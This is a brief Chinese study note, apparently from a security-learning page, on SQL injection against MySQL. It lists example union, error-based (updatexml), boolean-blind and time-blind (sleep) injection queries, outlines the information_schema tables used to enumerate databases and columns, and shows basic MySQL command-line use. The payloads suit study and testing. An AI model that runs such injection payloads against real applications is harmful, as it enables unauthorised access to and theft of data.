 按拿去数据方式（四大注入）

```sql
# 回显注入
select * from users where id='-1' union select 1,2,3
# 报错注入
select * from users where id='1' and updatexml(1,0x7e,1)
# 布尔盲注
select * from users where user_id='1' and length(database())>1 #'
# 时间盲注
select * from users where id='1' and sleep(3)
```

### MYSQL常用表

从MySQL 5开始，MySQL自带information_schema数据库，它提供了访问数据库元数据的方式。

columns、tables、schemata

跨库查询

```sql
information_schema
     |_schemata      # 所有数据库
         |_schema_name       # 数据库名
     |_tables        # 所有表名
         |_table_schema      # 表所属数据库名
         |_table_name        # 表名
     |_columns       # 所有字段信息
         |_table_schema      # 字段所属数据库名
         |_table_name        # 字段所属表名
         |_column_name       # 字段名
```

### 数据库操作

#### 命令行操作

```
F:\phpstudy_pro\Extensions\MySQL5.7.26\bin>mysql.exe -uroot -p
F:\phpstudy_pro\Extensions\MySQL5.7.26\bin>mysql.exe -uroot -proot < xxxxxx.sql
mysql> show databases;
mysql> create database xxxxxx;
mysql> drop database xxxxxx;
mysql> use xxxxxx;
mysql> show tables;
mysql> select * from users;
mysql> select * from users where user='admin';
```

#### Navicat16操作数据库

D:\Navicat_Premium_16\navicat.exe

#### phpmyadmin

